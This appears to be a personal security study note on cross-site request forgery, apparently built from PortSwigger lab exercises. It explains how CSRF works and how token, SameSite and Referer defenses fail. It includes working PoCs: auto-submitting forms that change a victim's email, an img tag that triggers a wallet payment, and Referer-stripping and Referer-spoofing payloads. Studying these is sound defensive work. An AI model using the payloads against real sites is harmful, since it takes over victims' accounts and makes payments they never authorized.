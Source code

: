 
>[!question] What is CSRF?
>Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. This allows attacker to partially circumvent the [Same-origin policy (SOP)](Same-origin%20policy%20(SOP).md).

>[!note]
>If you find yourself in a SameSite scenario, you can perform [Cross-Origin Request Forgery (CORF)](Cross-Origin%20Request%20Forgery%20(CORF).md) attacks.

An HTTP request can be generated in thousands of ways, including with the following code:

```html
<img src="http://crypto.example.com/pagamenti.php?importo=300&wallet=Id_attacker_wallet" >
```

If a [crypto.example.com](http://crypto.example.com/) domain exists, attaching the following code to an e-mail would enable a victim to be defrauded by a request that was never made actively.

## How does CSRF work?

Three different key conditions must be satisfied:

- **A relevant action**: There is an action within the application that the attacker has a reason to induce. (payments, changing user's data, etc.)
- **Cookie-based session handling**: There is no other mechanism in place for tracking sessions or validating user requests besides cookies.
- **No unpredictable request parameters**: The requests that perform the action do not contain any parameters whose values the attacker cannot determine or guess.

>[!note]
>Although CSRF is normally described in relation to cookie-based session handling, it also arises in other contexts where the application automatically adds some user credentials to requests, such as HTTP Basic authentication and certificate-based authentication.

## Basic PoC

```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

## Defenses against CSRF attacks

### CSRF tokens

>[!question] What is a CSRF token?
>**CSRF tokens** are a unique, secret, and unpredictable value that is generated by the server-side application and shared with the client. When attempting to perform a sensitive action, the client must include the correct CSRF token in the request.

#### Common bypasses and flaws

- **Validation of CSRF token depends on request method**: 
  Some applications correctly validate the token when the request uses a specific method but skip the validation when other methods are used.

- **Validation of CSRF token depends on token being present**:
  Some applications correctly validate the token when it is present but skip the validation if the token is omitted.

- **CSRF token is not tied to the user session**:
  Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool. In this situation, the attacker can log in to the application using their own account, obtain a valid token, and then feed that token to the victim user in their CSRF attack.

- **CSRF token is tied to a non-session cookie**:
  Some applications do tie the CSRF token to a cookie, but not to the same cookie that is used to track sessions. If the web site contains **any behavior that allows an attacker to set a cookie in a victim's browser**, then an attack is possible.
  >[!note]
  >The cookie-setting behavior does not even need to exist within the same web application as the CSRF vulnerability. Any other application within the same overall DNS domain can potentially be leveraged to set cookies in the application that is being targeted, if the cookie that is controlled has suitable scope. For example, a cookie-setting function on `staging.demo.normal-website.com` could be leveraged to place a cookie that is submitted to `secure.normal-website.com`.
  
  >[!example]
  >Vulnerable request which allows to set arbitrary cookies:
  >![CSRF](../../zzz_res/attachments/CSRF1.png)
  >CSRF request using a secondary cookie to verify CSRF owner:
  >```http
POST /my-account/change-email HTTP/1.1
Host: 0ab300650480e718c04b4561003a00e1.web-security-academy.net
Cookie: LastSearchTerm=test; csrfKey=Rgkjc4H27R86RdwCHABNut5IkSp27ptL; session=dP0hnLqpEuSTZI6o04EOafAnL1RiVYMx
Content-Length: 59
Content-Type: application/x-www-form-urlencoded
Connection: close
>
email=test%40test.com&csrf=waQRtvxCwZbNaHazxoQTU9HXCFw4PZ6S
>```

- **CSRF token is simply duplicated in a cookie**:
  In a further variation on the preceding vulnerability, some applications do not maintain any server-side record of tokens that have been issued, but instead duplicate each token within a cookie and a request parameter (**double-submit pattern**). This is sometimes called the "double submit" defense against CSRF. Like before, the attacker can again perform a CSRF attack if the web site contains any [Cookie Fixation](Header%20Fixation.md) or [Cookie Tossing](Cookie%20Tossing.md) vulnerability. Here, the attacker doesn't need to obtain a valid token of their own.
  >[!example]
  >```http
  >POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa
>
>csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
>``` 
^a150b3

![](attachments/CORF-double-submit.png)
### SameSite attribute on cookies

>[!question] What is the [SameSite Cookie Attribute](SameSite%20Cookie%20Attribute.md) for cookies?
>SameSite is a browser security mechanism that determines when a website's cookies are included in requests originating from other websites. As requests to perform sensitive actions typically require an authenticated session cookie, the appropriate SameSite restrictions may prevent an attacker from triggering these actions cross-site.

#### Common bypasses and flaws
- [Bypass SameSite Lax restrictions using GET requests](SameSite%20Cookie%20Attribute.md#Bypass%20SameSite%20Lax%20restrictions%20using%20GET%20requests)
- [Bypass SameSite Lax restrictions with newly issued cookies](SameSite%20Cookie%20Attribute.md#Bypass%20SameSite%20Lax%20restrictions%20with%20newly%20issued%20cookies)
- [Bypass SameSite restrictions using on-site gadgets](SameSite%20Cookie%20Attribute.md#Bypass%20SameSite%20restrictions%20using%20on-site%20gadgets)
- [Bypass SameSite restrictions via vulnerable sibling domains](SameSite%20Cookie%20Attribute.md#Bypass%20SameSite%20restrictions%20via%20vulnerable%20sibling%20domains)
	- In this case we are talking about [Cross-Origin Request Forgery (CORF)](Cross-Origin%20Request%20Forgery%20(CORF).md) attacks because SameSite does not apply



### Referer-based validation

^7c9e8d

Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, by verifying that the request originated from the application's own domain.

#### Common bypasses and flaws

- **Validation of Referer depends on header being present**:
  Some applications validate the `Referer` header when it is present in requests but skip the validation if the header is omitted. There are various ways to achieve this, but the easiest is using a META tag within the HTML page that hosts the CSRF attack: `<meta name="referrer" content="never">`
>[!example]
>```html
><html>
><meta name="referrer" content="never">
>  <!-- CSRF PoC - generated by Burp Suite Professional -->
>  <body>
>  <script>history.pushState('', '', '/')</script>
>    <form action="https://0a85006803036428c2d207fe00770035.web-security-academy.net/my-account/change-email" method="POST">
>      <input type="hidden" name="email" value="test&#64;test&#46;com" />
>      <input type="submit" value="Submit request" />
>    </form>
>    <script>
>      document.forms[0].submit();
>    </script>
>  </body>
></html>
>```

- **Validation of Referer can be circumvented**:
  Some applications validate the `Referer` header in a naive way that can be bypassed (eg. appending or adding at the end of the query string the desired domain). However, refer to [evading restrinctions](Evading%20Restrictions.md#Other%20resources) for further techniques.
>[!warning]
>Although you may be able to identify this behavior using Burp, you will often find that this approach no longer works when you go to test your proof-of-concept in a browser. In an attempt to reduce the risk of sensitive data being leaked in this way, **many browsers now strip the query string from the Referer header by default**. You can override this behavior by making sure that the response containing your exploit has the `Referrer-Policy: unsafe-url` header set. This ensures that the full URL will be sent, including the query string.

   >[!example]
   >Response header must include `Referrer-Policy: unsafe-url`
>```html
><html>
>  <!-- CSRF PoC - generated by Burp Suite Professional -->
>  <body>
>  <script>history.pushState('', '', '/exploit?a=https://0ac600c103f641ccc0307dc500fd001e.web-security-academy.net')</script>
>    <form action="https://0ac600c103f641ccc0307dc500fd001e.web-security-academy.net/my-account/change-email" method="POST">
>      <input type="hidden" name="email" value="test&#64;test&#46;com" />
>      <input type="submit" value="Submit request" />
>    </form>
>    <script>
>      document.forms[0].submit();
>    </script>
>  </body>
></html>
>```
- **Using [Open Redirection](Open%20Redirection.md)**:
  If you can find a DOM-based Open Redirection vulnerability, you can use it to instantiate your CSRF attack and chain it with method switching.
